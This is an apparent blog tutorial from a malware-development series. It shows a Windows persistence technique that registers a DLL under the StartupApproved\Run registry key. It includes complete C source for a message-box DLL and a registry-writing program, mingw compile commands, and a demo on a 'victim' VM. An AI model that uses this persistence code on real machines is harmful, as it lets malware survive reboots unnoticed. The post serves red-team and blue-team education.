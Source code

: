 ```yaml
---
title:  "Malware development: persistence - part 24. StartupApproved. Simple C example."
date:   2024-03-12 03:00:00 +0300
header:
  teaser: "/assets/images/117/2024-03-15_01-04.png"
categories:
  - persistence
tags:
  - malware
  - windows
  - persistence
  - red team
  - win32api
---
```


﷽

Hello, cybersecurity enthusiasts and white hackers!     

![pers](/assets/images/117/2024-03-15_01-04.png){:class="img-responsive"}    

This post is based on my own research into one of the another interesting malware persistence tricks: via StartupApproved Registry key.     

### StartupApproved

The very first post in the series about persistence, I wrote about one of the most popular and already classic techniques, via [Registry Run keys](/tutorial/2022/04/20/malware-pers-1.html).      

An uncommon Registry entry utilized by the standard "startup" process (i.e., the one mostly controlled by Windows Explorer, such as the `Run` and `RunOnce` keys, the Startup folder, etc.) after `userinit.exe` completes its operation, is located at the following location in the Registry:    

```bash
HKCU\Software\Microsoft\Windows\CurrentVersion\Explorer\StartupApproved\Run
```

Turns out, this key is populated when entries are enabled or disabled via the Windows Task Manager's `Startup` tab:     

![pers](/assets/images/117/2024-03-15_00-47.png){:class="img-responsive"}    

The good news is that we can use this registry path for persistence.     

### practical example

First of all, check Registry keys by the following command:    

```powershell
reg query "HKCU\Software\Microsoft\Windows\CurrentVersion\Explorer\StartupApproved" /s
```

![pers](/assets/images/117/2024-03-14_23-57_1.png){:class="img-responsive"}    

At the next step, as usually, create our "evil" application (`hack.c`):     

```cpp
/*
hack.c
simple DLL messagebox
author: @cocomelonc
https://cocomelonc.github.io/tutorial/2021/09/20/malware-injection-2.html
*/

#include <windows.h>

BOOL APIENTRY DllMain(HMODULE hModule,  DWORD  nReason, LPVOID lpReserved) {
  switch (nReason) {
  case DLL_PROCESS_ATTACH:
    MessageBox(
      NULL,
      "Meow-meow!",
      "=^..^=",
      MB_OK
    );
    break;
  case DLL_PROCESS_DETACH:
    break;
  case DLL_THREAD_ATTACH:
    break;
  case DLL_THREAD_DETACH:
    break;
  }
  return TRUE;
}
```

As usually, just `meow-meow` messagebox.      

Then we just modifying our  `HKCU\Software\Microsoft\Windows\CurrentVersion\Explorer\StartupApproved` registry key, like this (`pers.c`):     

```cpp
/*
pers.c
windows persistence
via StartupApproved
author: @cocomelonc
https://cocomelonc.github.io/malware/2024/03/12/malware-pers-24.html
*/
#include <windows.h>
#include <stdio.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  BYTE data[] = {0x02, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00};

  const char* path = "Software\\Microsoft\\Windows\\CurrentVersion\\Explorer\\StartupApproved\\Run";
  const char* evil = "Z:\\2024-03-12-malware-pers-24\\hack.dll";

  LONG res = RegOpenKeyEx(HKEY_CURRENT_USER, (LPCSTR) path, 0, KEY_WRITE, &hkey);
  printf (res != ERROR_SUCCESS ? "failed open registry key :(\n" : "successfully open registry key :)\n");

  res = RegSetValueEx(hkey, (LPCSTR)evil, 0, REG_BINARY, data, sizeof(data));
  printf(res != ERROR_SUCCESS ? "failed to set registry value :(\n" : "successfully set registry value :)\n");

  // close the registry key
  RegCloseKey(hkey);

  return 0;
}
```

As you can the the logic of our Proof of Concept is pretty simple - we set the value of the registry entry to `0x02 0x00...` binary value.      

### demo

Let's go to see everything in action. First of all, compile our "malware" DLL:      

```bash
x86_64-w64-mingw32-g++ -shared -o hack.dll hack.c -fpermissive
```

![pers](/assets/images/117/2024-03-14_21-50.png){:class="img-responsive"}    

Then, compile our PoC:     

```bash
x86_64-w64-mingw32-g++ -O2 pers.c -o pers.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![pers](/assets/images/117/2024-03-14_21-51.png){:class="img-responsive"}    

Finally, run it on the victim's machine. In my case, for Windows 10 x64 v1903 VM, it is looks like this:     

```powershell
.\pers.exe
```

![pers](/assets/images/117/2024-03-15_00-46.png){:class="img-responsive"}    

As you can see, I also checked registry again:     

```powershell
reg query "HKCU\Software\Microsoft\Windows\CurrentVersion\Explorer\StartupApproved" /s
```

![pers](/assets/images/117/2024-03-15_00-46_1.png){:class="img-responsive"}    

Then, logout and login again:     

![pers](/assets/images/117/2024-03-15_00-50.png){:class="img-responsive"}    

![pers](/assets/images/117/2024-03-15_00-51.png){:class="img-responsive"}    

But unexpectedly it didn't work for me :thinking:

Then, I just update the name of entry:     

![pers](/assets/images/117/2024-03-15_00-54.png){:class="img-responsive"}    

Logout and login, little bit wait.... and it's worked perfectly....

![pers](/assets/images/117/2024-03-15_01-03.png){:class="img-responsive"}    

![pers](/assets/images/117/2024-03-15_01-04.png){:class="img-responsive"}    

So I updated one line in my script:    

```cpp
/*
pers.c
windows persistence
via StartupApproved
author: @cocomelonc
https://cocomelonc.github.io/malware/2024/03/12/malware-pers-24.html
*/
#include <windows.h>
#include <stdio.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  BYTE data[] = {0x02, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00};

  const char* path = "Software\\Microsoft\\Windows\\CurrentVersion\\Explorer\\StartupApproved\\Run";
  const char* evil = "C:\\temp\\hack.dll";

  LONG res = RegOpenKeyEx(HKEY_CURRENT_USER, (LPCSTR) path, 0, KEY_WRITE, &hkey);
  printf (res != ERROR_SUCCESS ? "failed open registry key :(\n" : "successfully open registry key :)\n");

  res = RegSetValueEx(hkey, (LPCSTR)evil, 0, REG_BINARY, data, sizeof(data));
  printf(res != ERROR_SUCCESS ? "failed to set registry value :(\n" : "successfully set registry value :)\n");

  // close the registry key
  RegCloseKey(hkey);

  return 0;
}
```

But there is a caveat. Sometimes when I tested this feature, it launched like Skype for me:     

![pers](/assets/images/117/2024-03-14_23-56.png){:class="img-responsive"}    

![pers](/assets/images/117/2024-03-14_23-57.png){:class="img-responsive"}    

As you can see, everything worked perfectly as expected! =^..^= :)    

This technique is used by APT groups like [APT28](https://attack.mitre.org/groups/G0007/), [APT29](https://attack.mitre.org/groups/G0016/), [Kimsuky](https://attack.mitre.org/groups/G0094/) and [APT33](https://attack.mitre.org/groups/G0064/) in the wild. In all honesty, this method is widely employed and widespread due to its extreme convenience in deceiving the victims.     

I hope this post spreads awareness to the blue teamers of this interesting technique, and adds a weapon to the red teamers arsenal.      

> This is a practical case for educational purposes only.      

[ATT&CK MITRE: T1547.001](https://attack.mitre.org/techniques/T1547/001/)     
[Malware persistence: part 1](/tutorial/2022/04/20/malware-pers-1.html)       
[APT28](https://attack.mitre.org/groups/G0007/)    
[APT29](https://attack.mitre.org/groups/G0016/)     
[Kimsuky](https://attack.mitre.org/groups/G0094/)    
[APT33](https://attack.mitre.org/groups/G0064/)     
[source code in github](https://github.com/cocomelonc/meow/tree/master/2024-03-12-malware-pers-24)     

Thanks for your time happy hacking and good bye!   
*PS. All drawings and screenshots are mine*
